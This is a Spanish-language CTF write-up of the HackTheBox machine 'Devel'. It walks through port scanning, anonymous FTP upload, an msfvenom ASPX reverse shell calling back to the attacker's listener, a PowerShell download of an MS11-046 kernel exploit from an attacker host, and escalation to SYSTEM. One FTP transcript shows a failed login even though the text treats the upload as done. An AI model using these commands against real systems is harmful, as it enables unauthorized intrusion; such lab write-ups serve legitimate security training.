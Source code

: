 ```yaml
---
title: 'Devel Write Up [OSCP-Style]'
disqus: HackTheBox 
---
```


Devel WRITE UP [OSCP-Style]
===

Hecho por @xlcc4096 y @CapitanJ4ck21 

## Indice 

[TOC]

> Devel es una máquina Windows de Hackthebox la cual empezaremos descubriendo que todo lo que se sube al servidor FTP esta disponible a traves del servidor web, sabiendo esto subiremos una shell al servidor FTP y a través de visitarla a través del servidor web conseguimos acceso al sistema via el usuario 'web' y escalaremos privilegios aprovechandonos de una vulnerabilidad en el sistema.

## Enumeración
### Escaneo de puertos
Lo primero que hacemos es escanear todo el rango de puertos TCP de la maquina y le pasamos a cada puerto encontrado un escaneo de detección de servicios y scripts de enumeración por defecto de nmap.
```bash=
nmap -p- -sS --min-rate 5000 -A -Pn -n -vvv -oN targeted 10.10.10.5
```
> **Nota:** En el comando no especificamos -sV y -sC, especificamos en su lugar que es el escaneo agresivo que hace -sV, -sC, -O y un --traceroute, esto lo hacemos ya que es un entorno controlado.
```
# Nmap 7.91 scan initiated Tue Dec  8 11:45:38 2020 as: nmap -p- -sS --min-rate 5000 -A -Pn -n -vvv -oN targeted 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up, received user-set (0.30s latency).
Scanned at 2020-12-08 11:45:39 CET for 47s
Not shown: 65533 filtered ports
Reason: 65533 no-responses
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.91%E=4%D=12/8%OT=21%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=5FCF5982%P=x86_64-pc-linux-gnu)
SEQ(SP=105%GCD=1%ISR=10E%TI=I%II=I%SS=S%TS=7)
OPS(O1=M54DNW8ST11%O2=M54DNW8ST11%O3=M54DNW8NNT11%O4=M54DNW8ST11%O5=M54DNW8ST11%O6=M54DST11)
WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)
ECN(R=Y%DF=Y%TG=80%W=2000%O=M54DNW8NNS%CC=N%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Uptime guess: 0.761 days (since Mon Dec  7 17:30:22 2020)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   297.84 ms 10.10.14.1
2   297.89 ms 10.10.10.5

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec  8 11:46:26 2020 -- 1 IP address (1 host up) scanned in 48.37 seconds

```



### Puerto 21 / TCP
Descubrimos que el puerto 21 esta abierto y esta corriendo un servidor ftp, `nmap` nos comunico en su salida que se puede acceder a este a traves de usuario anonimo, accedemos y vemos que estan subidos los contenidos del servidor web, despues de subir un archivo de prueba comprobamos que todo lo que se suba al FTP se puede consultar a través del servidor web.

```bash=
ftp 10.10.10.5 
```
```ftp  
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:capi): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> !echo "<h1>Hacked by Th3Elite<h1>" > elite.html
ftp> put elite.html 
local: elite.html remote: elite.html
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
28 bytes sent in 0.00 secs (1012.7315 kB/s)
ftp> bye
221 Goodbye.

```
### Puerto 80 / TCP

Detectamos que subimos los ficheros en la web.

![](https://i.imgur.com/vzF6jSt.png)


## Explotación

Generamos la shell en un formato aspx (si se genera en ASP no hay problema la única diferencia entre ASPX y ASP, es que ASPX puede contener también html) con msfvenom, en este formato porque es un servidor IIS.

```bash=
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.26 LPORT=31337 -f aspx >reverse.aspx
```
Nos conectamos la servidor FTP y subimos nuestra shell
```bash=
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:capi): anonymous 
331 Password required for anonymous .
Password:
530 User cannot log in.
Login failed.
Remote system type is Windows_NT.
ftp> put exploits/testing/reverse.aspx 
local: exploits/testing/reverse.aspx remote: exploits/testing/reverse.aspx
530 Please login with USER and PASS.
ftp: bind: Address already in use
ftp> bye
221 Goodbye.
```

Con la shell subida al servidor web lo que haremos ahora sera visitar nuestra shell para que nos devuelva una conexion a nuestro netcat que previamente ya esta puesto a la escucha.
```
rlwrap nc -lnvp 31337
listening on [any] 31337 ...
```

```bash=
curl http://10.10.10.5/reverse.aspx
```

## Escalada de Privilegios
Ya tenemos acceso al sistema ahora lo que haremos sera enumerar el sistema para intentar encontrar algun vector para la escalada de privilegios.
### Enumeración
Lo primero que hacemos es ver a que sistema nos enfrentamos con `systeminfo`, para hacer un filtro de la info que necesitamos utilizamos el siguiente comando: 

```bat
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```
```
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
System Type:               X86-based PC
```


## Explotación 
A través de la enumeración del sistema detectamos que el sistema es vulnerable a MS11-046 la cual es una vulnerabilidad que se encuentra en el AFD.sys que consiste en que este driver valida de forma erronea los datos que el usuario da al kernel, esto nos ayudara a escalar privilegios en el sistema.
https://www.exploit-db.com/exploits/40564
https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS11-046
Una vez tenemos compilado el exploit lo que hacemos es transferir este al sistema objetivo de la siguiente manera. 

```powershell
powershell -c (New-Object Net.WebClient).DownloadFile('http://10.10.14.15:8000/ms11-046.exe', 'C:\tmp\ms11-046.exe')
```
Una vez descargado en la máquina el exploit lo ejecutamos.
```
.\ms11-046.exe
```
Y ya conseguimos shell como SYSTEM.
```bat
whoami 
nt authority\system
```
